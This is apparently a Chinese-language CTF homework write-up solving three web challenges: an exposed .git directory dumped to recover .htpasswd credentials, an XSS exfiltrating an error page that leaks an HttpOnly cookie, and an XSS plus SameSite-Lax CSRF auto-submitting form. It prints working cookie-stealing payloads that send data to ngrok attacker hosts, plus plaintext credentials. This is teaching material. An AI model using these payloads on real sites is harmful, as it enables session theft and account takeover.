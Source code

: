 # Hw04

## The Stupid Content Tracker

### Intro
.git 資料夾為使用 git 維護的專案, 用來紀錄專案資料而自動產生的資料夾, 內容包含 log, branch info, 甚至是 source file. <br>
而在沒有設定好權限的情況下, 如果 .git 不幸可以從 server 中被存取, 則原始碼, log 等等資料都會外流. <br>

### Attack
進入 `https://edu-ctf.csie.org:44302/.git/` 後, 雖然頁面顯示的是 Forbidden, 不過若我們嘗試直接存取檔案 `.git/HEAD`, 則可以發現其實可以存取, 代表權限設置不能看 `.git/` 但是可以看 `./git/*`. <br>

而下一步, 我們可以一個一個慢慢撈, 也可以使用工具 [GitTools](https://github.com/internetwache/GitTools) 來幫你 traverse 整個 `.git/` 目錄並 dump 出來. <br>
- 使用方式為: `./gitdumper.sh https://edu-ctf.csie.org:44302/.git/ my_dir`

Dump 完後, 透過 `git checkout commit` 來看先前的 commit info, 可以一個一個慢慢看到底改變了哪些, 到最後會發現
1. .htpasswd
    - `thewebmaster:ols2Xrmdja7XaaMP`
    - 用戶可以透過登入的方式來存取特定網頁
2. admin_portal_non_production/.htaccess
    - 需要認證的帳號密碼才能存取此網頁

於是可以知道, 透過 .htpasswd 紀錄的帳號密碼, 可以訪問 admin_portal_non_production/ 下的資料. <br>

![](Tracker/w1-1.png) <br>
登入後, 即可拿到 flag.

`FLAG{_man_git_THe_StUPid_CONtEnt_TrAcKEr......}`

## Zero Note Revenge

### Analyze
首先, 題目直接講明 admin cookie 是 `HttpOnly`, 代表不能用 js 去存取 (document.cookie), 所以我們就算有 XSS, 也沒辦法直接用 fetch or window.location + document.cookie 拿到. <br>

不過我們可以發現, 若存取 `report/g4rb4g3` 之類的文章, 會因為文章不存在而噴 error, 仔細看能看到 error msg 中還有 cookie info <br>
![](Revenge/w2-1.png)

既然 cookie 可以透過存取頁面取得, 不需要 js, 那這樣就能 bypass httponly 的 rule 了.

### Attack
1. 透過 ajax GET 可以取得 cookie 的頁面, 並將 response 存成變數
2. 透過 window.location 或是 fetch, 將 response 帶入 url query 送給我們的 server

```js
<script>
xmlhttp = new XMLHttpRequest();
xmlhttp.onreadystatechange = function () {
	if (xmlhttp.readyState == 4 && xmlhttp.status == 500) {
		window.location.href = " https://ed1dfd4bda6f.ngrok.io/"+btoa(xmlhttp.responseText);
		}
}
xmlhttp.open("GET", "/note/qq");
xmlhttp.send();
</script>
```
Server 會得到超長的 query XD
![](Revenge/w2-2.png)
![](Revenge/w2-3.png)

拿去做 base64 decode 後, 就得到 flag 了
![](Revenge/w2-4.png)

## Zero Meme

### Analyze
使用任意帳密登入後, 會發現有兩個 input box, 一個是顯示圖片, 一個是給 admin 點的 link. <br>
透過測試可以發現, 第一個 input box (Update your favorite Meme) 會將輸入當作是字串放入 img 的 src attribute 中, 而過濾也只比對前面是否為 `http://` or `https://` 開頭.<br><br>
如果調皮一點, 閉合 image tag 後亂塞 alert script 呢？<br>
`http://"><script>alert(1)</script><img src="`
![](MeMe/w3-1.png)

WoW, 竟然可以執行 JS! 而第二個 input box 能讓 admin 來訪問我們的 server...<br>
如果有方法讓我們的 server 模擬第一個 input box 送 request, 就能執行 JS, 利用 fetch 將 cookie 送過來了. SameSite 的防禦, 由於 meme server cookie 的 SameSite 是使用 Lax, 而 Lax 有著著名的 2min POST, 可以參考[此文章](https://medium.com/@renwa/bypass-samesite-cookies-default-to-lax-and-get-csrf-343ba09b9f2b). <br><br>

內文主要是說: 當 cookie reset 或是更新時, 如果你 cookie SameSite 的 type 是 Lax 的話, 則可以在 2min 內在 other site 打 cookie 所屬的 site 的 POST request, 透過這種方式可以繞過 samesite 的防禦.

### Attack
1. 透過第一個 input box 的 POST request, 產生可以取得 admin cookie 的 js payload
    - `http://"><script>fetch("https://92f59e2b5f3c.ngrok.io/"+document.cookie)</script><img src="http://qqq`
    - 開頭 `http://` 可以通過 filter
    - 後面的 js 利用 fetch 的方式, 將 cookie 放入 query 送到我們的 server
    - 後面 `<img` 用於閉合剩下的 tag
2. 設計一個網頁, 讓 admin 訪問後, 會自動模擬 input box 的 POST request, 執行我們設計的程式碼
```html
<form  method="POST" action='https://edu-ctf.zoolab.org:44303/me' id='qq'>
      <input
        type="text"
        name="intro"
        placeholder="https://imgflip.com/i/4kp3ij"
        value='http://"><script>fetch("http://your-server/"+document.cookie)</script><img src="http://qqq'
      >
       <button type="submit">Submit</button>
</form>
<script>
document.getElementById('qq').submit();
</script>
```
<br>

得到 fetch 結果:
![](MeMe/w3-2.png)